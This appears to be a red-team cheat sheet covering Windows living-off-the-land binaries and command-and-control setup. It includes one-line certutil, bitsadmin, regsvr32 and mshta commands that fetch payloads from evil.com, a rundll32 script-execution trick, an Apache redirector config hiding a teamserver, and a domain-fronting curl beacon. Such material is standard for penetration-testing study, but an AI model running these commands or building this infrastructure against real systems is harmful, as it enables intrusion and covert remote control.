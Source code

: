 
## 🏃‍♂️ Living Off The Land

### Essential LOLBAS Techniques
| Binary | Technique | Example |
|--------|-----------|---------|
| **certutil.exe** | Download files | `certutil -urlcache -split -f http://evil.com/payload.exe` |
| **bitsadmin.exe** | File transfer | `bitsadmin /transfer job http://evil.com/file.exe C:\temp\file.exe` |
| **regsvr32.exe** | Execute scripts | `regsvr32 /s /n /u /i:http://evil.com/file.sct scrobj.dll` |
| **mshta.exe** | HTA execution | `mshta http://evil.com/payload.hta` |
| **rundll32.exe** | DLL execution | `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";eval("code")` |

### Key Resources
- 🔧 [GTFO Bins (Linux)](https://gtfobins.github.io/)
- 🔧 [LOLBAS (Windows)](https://github.com/LOLBAS-Project/LOLBAS)

---

## 🎮 Command and Control (C2)

### C2 Framework Comparison
| Framework | Language | Stealth | Ease of Use | Features |
|-----------|----------|---------|-------------|----------|
| **Cobalt Strike** | Java | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ | Full-featured commercial |
| **Empire** | PowerShell | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ | PowerShell-based, free |
| **Metasploit** | Ruby | ⭐⭐⭐ | ⭐⭐⭐⭐⭐ | Comprehensive, well-known |
| **Merlin** | Go | ⭐⭐⭐⭐ | ⭐⭐⭐ | HTTP/2 based |
| **Covenant** | C# | ⭐⭐⭐⭐ | ⭐⭐⭐ | .NET focused |

### Infrastructure Setup
```bash
# Basic C2 Infrastructure with Redirectors
# Apache mod_rewrite for traffic filtering
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/admin.*
RewriteRule ^.*$ http://teamserver:80%{REQUEST_URI} [P]
RewriteRule ^.*$ http://decoy-site.com%{REQUEST_URI} [R=302,L]

# Domain fronting with CloudFront
curl -H "Host: legitimate-domain.com" https://cloudfront-domain.com/beacon
```

### C2 Communication Channels
- 🌐 **HTTP/HTTPS**: [Cobalt Strike HTTP C2 Redirectors](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/)
- 📧 **Email**: [C2 with Gmail](https://pentestlab.blog/2017/08/03/command-and-control-gmail/)
- 🐦 **Social Media**: [C2 with Twitter](https://pentestlab.blog/2017/09/26/command-and-control-twitter/)
- 🌍 **DNS**: [C2 with DNS](https://pentestlab.blog/2017/09/06/command-and-control-dns/)
- 📁 **Cloud Storage**: [C2 with Dropbox](https://pentestlab.blog/2017/08/29/command-and-control-dropbox/)
